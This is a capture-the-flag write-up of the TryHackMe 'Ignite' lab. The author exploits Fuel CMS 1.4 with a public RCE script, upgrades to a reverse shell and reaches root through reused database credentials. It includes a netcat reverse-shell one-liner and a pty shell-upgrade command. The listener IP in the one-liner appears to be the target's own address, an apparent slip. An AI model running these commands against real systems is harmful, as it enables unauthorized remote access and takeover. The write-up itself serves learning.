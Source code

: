 **<p align="center">TryHackMe: Ignite</p>**
---

<p align="center">
  <img src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Ignite%20Image%201.png" alt="image alt" width="180" />
</p>

[![Day 11 & 12 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2011%20%26%2012%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

**Topic:** Web application pentesting 

**Started:** 7/2/2025

**Completed:** 7/3/2025

🎯**Objective:** This penetration testing lab is to assess the security posture of a new start-up's web server, which is reportedly experiencing a few issues. The goal is to identify and exploit existing vulnerabilities within the web application to uncover two hidden flags.

<p align="center">+++++++++</p>

Launching the target machine, completing an Nmap scan is the first step to enumerating a target IP `10.10.188.239`.

The scan revealed 1 port being visibly open: Port 80, Service HTTP, Version Apache httpd 2.4.18 ((Ubuntu)).

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%201.png)

Since the Nmap scan confirmed that an HTTP service is running on the target machine, I proceeded to navigate to the IP address in my browser to begin exploring the web application.

Accessing the IP address directed me to the Fuel CMS homepage, which displayed the version number as 1.4.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%202.png)

According to research, **Fuel CMS** is an open-source content management system built on the CodeIgniter PHP framework. It provides a user-friendly interface for content managers while also offering developers the flexibility to customize the application's behavior behind the scenes. In essence, it's both a CMS and a development platform.

Notably, Fuel CMS v1.4 is relatively outdated and is known to contain vulnerabilities, including Remote Code Execution (RCE), making it a strong candidate for exploitation in this challenge.

*(Note: My VM timed out during the process, so I had to relaunch the target machine.)*

While exploring the web server, I checked the `robots.txt` file and found a disallowed path: `/fuel/`. This suggests that the `/fuel/` directory may contain a sensitive interface, likely the CMS backend or admin panel.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%203.png)

Using Searchsploit, I located a known Remote Code Execution exploit for Fuel CMS:
- `linux/webapps/47138.py`

This exploit specifically targets vulnerabilities within the `/fuel/` directory.

I customized the Python code by removing the Burp Suite proxy settings, as they weren’t needed for this setup.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%204.png)

Running the customized exploit successfully launched a non-interactive shell on the target machine.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%205.png)

To upgrade this shell to an interactive one, I opened a Netcat listener on port `5555` and used a reverse shell payload generated from the Reverse Shell Generator website.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.188.239 5555 > /tmp/f

```

This command quietly creates a named pipe (`mkfifo`) to establish a temporary communication tunnel between the attacker and target, allowing for interactive shell access.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%206.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%207.png)

While testing commands through the non-interactive shell, I encountered the following error:
```
sudo: no tty present and no askpass program specified

```
This hinted that `www-data` might have sudo privileges, but was being prevented from executing commands due to the lack of a proper TTY. In other words, the system couldn’t prompt for a password in this shell type.
To resolve this, I ran the following command to spawn an interactive shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```
This successfully upgraded the shell and allowed smoother command interaction.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%208.png)

Continuing my enumeration, I discovered a file named `database.php` located at:
```
/var/www/html/fuel/application/config/database.php

```
Inside, I found plaintext MySQL root credentials, stored in cleartext within the configuration.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%209.png)

Using the retrieved credentials, I successfully attempted to escalate privileges by switching users. The credentials were reused at the system level, allowing me to gain full root access to the machine.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%2010.png)

With root access established, I was able to locate both challenge flags:
- **User flag:** Found in the home directory
- **Root flag:** Located in `/root`

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%2011.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Screenshot%2012.png)

**Lessons Learned:**

This lab reinforced the value of trusting my instincts and staying patient through the troubleshooting process. I initially spent several hours trying to get the exploit to work, and although I had to start over, it allowed me to retrace my steps with confidence and complete the entire process in minutes the next day.

From recognizing an outdated CMS, to exploiting it with an RCE, and finally escalating to root through a reused credential, each step reminded me how small misconfigurations can create major security risks. It also showed me that I’m developing a sharper eye for enumeration and privilege escalation paths, the progress felt incredibly rewarding.

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers
directly. Instead, I’ve documented my full process to support both others and myself in
understanding the vulnerability.

**Resources**:
- [TryHackMe's Ignite Room](https://tryhackme.com/room/ignite)
